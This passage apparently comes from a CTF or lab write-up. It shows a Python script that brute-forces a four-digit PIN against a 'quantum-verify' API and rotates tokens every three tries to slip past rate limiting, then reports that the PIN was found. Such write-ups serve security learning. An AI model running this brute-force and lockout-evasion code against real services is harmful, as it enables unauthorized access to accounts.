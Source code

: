 ```python

def try_pin(token, pin):
    headers = HEADERS_COMMON.copy()
    headers["X-Quantum-Token"] = token
    headers["Content-Type"] = "application/json"
    data = {"pin": pin}
    response = requests.post(f"{BASE_URL}/api/quantum-verify", json=data, headers=headers)
    try:
        result = response.json()
        if result.get("success") and "Invalid" not in result.get("message", ""):
            print(f"[+] PIN encontrado: {pin}")
            print(result)
            return True
    except Exception:
        pass
    return False

def brute_force():
    current_token = INITIAL_TOKEN
    attempt_count = 0
    for i in range(676,10000):
        pin = f"{i:04d}"

        if attempt_count == 0 or attempt_count >= 3:
            current_token = rotate_token(current_token)
            node_id = get_node_id(current_token)
            attempt_count = 0
            print(f"[i] Novo token e nodeId obtidos: nodeId={node_id}")

        print(f"[>] Testando PIN: {pin}")
        if try_pin(current_token, pin):
            break

        attempt_count += 1
        time.sleep(0.5)  # evitar rate limit

if __name__ == "__main__":
    brute_force()

```

Running the script, I was able to find the correct PIN.

![](imagens/2025-05-22_01-27.png)